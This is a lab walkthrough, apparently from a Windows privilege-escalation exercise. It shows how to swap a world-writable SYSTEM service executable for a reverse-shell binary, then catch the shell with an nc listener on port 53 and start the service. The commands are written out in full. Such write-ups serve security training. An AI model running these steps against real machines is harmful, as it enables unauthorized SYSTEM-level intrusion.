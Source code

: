 # 🐾 Task 6: Exploiting Services - Unsecured Service Executables
---

## 📜 Task Description
In this task, we will exploit a vulnerability in the `filepermsvc` service, which runs with SYSTEM privileges. The vulnerability lies in the service executable being writable by all users, allowing us to replace it with our custom file and obtain a reverse shell with SYSTEM privileges.

---

## 🔍 Step 1: Checking Service Configuration
First, check the configuration of the `filepermsvc` service to confirm it runs with SYSTEM privileges. Execute the following command:  
`sc.exe qc filepermsvc`

### 📋 Expected Output
- Ensure that the `SERVICE_START_NAME` indicates SYSTEM.  
![image](https://github.com/user-attachments/assets/eeb8e281-a588-4d9a-b3fc-ad968d7c8782)

---

## 🔑 Step 2: Checking Permissions on the Executable
Now, use the `accesschk.exe` tool to verify write permissions on the executable for the `filepermsvc` service. Execute the following command:  
`C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`

### 📋 Expected Output
- Confirm that the executable `filepermservice.exe` is writable by all users.  
![image](https://github.com/user-attachments/assets/7005e051-598d-4c39-ad9c-c4e6d97d1842)

---

## 📝 Step 3: Replacing the Executable
Replace the `filepermservice.exe` executable with your previously created `reverse.exe`. Run the following command:  
`copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" -Force`

### 📋 Expected Output
- Confirm that the executable has been successfully replaced with `reverse.exe`.

---

## 🎧 Step 4: Setting Up the Listener
Before starting the service, ensure you have a listener running on Kali. Use the following command to start the listener:  
`nc -lvnp 53`

---

## 🚀 Step 5: Starting the Service
Now, start the `filepermsvc` service. It should execute `reverse.exe` and provide you with a reverse shell with SYSTEM privileges. Execute the following command:  
`net start filepermsvc`

### 📋 Expected Output
- Confirm that you have received a reverse shell on Kali.  
![image](https://github.com/user-attachments/assets/de67780f-f3db-4052-8f91-636881ae5068)

---

## 🎉 Congratulations!
You have successfully exploited an unsecured service executable to gain a reverse shell with SYSTEM privileges! 🎊

---

## 📌 Notes
- Ensure you understand all the steps and their implications.
- Use this knowledge responsibly and only within authorized penetration testing engagements.
